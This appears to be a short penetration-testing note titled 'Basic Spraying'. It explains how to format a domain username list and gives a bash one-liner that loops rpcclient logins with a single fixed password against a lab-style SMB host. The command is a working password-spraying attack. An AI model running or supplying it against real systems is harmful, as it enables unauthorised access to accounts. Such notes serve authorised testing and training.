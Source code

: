 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Basic Spraying

Create a username list formatted like the following:

DOMAIN\\Username

~~~bash
cat usernames.txt | while read line; do echo $line && rpcclient -U “$line%P@ssw0rd12” -c “getusername;quit” 10.10.10.100; done
~~~

